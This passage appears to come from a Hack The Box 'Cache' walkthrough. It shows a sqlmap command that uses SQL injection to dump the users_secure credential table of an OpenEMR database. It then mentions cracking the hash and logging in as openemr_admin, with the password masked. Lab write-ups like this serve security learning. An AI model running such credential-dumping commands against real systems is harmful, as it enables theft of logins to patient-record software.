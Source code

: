 Cool. Let's now  dump that `users_secure` table:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ sqlmap -r burp.txt --threads=10 --dbs -p eid --dbms mysql -D openemr -T users_secure --dump
```

![htb_cache_hash.png](../assets/cache_assets/htb_cache_hash.png)

Nice, that looks like the real deal this time.

Let's crack this:

![htb_cache_cracked.png](../assets/cache_assets/htb_cache_cracked.png)

We can confirm this works for the OpenEMR login: `openemr_admin:xxxxxx`

![htb_cache_in.png](../assets/cache_assets/htb_cache_in.png)
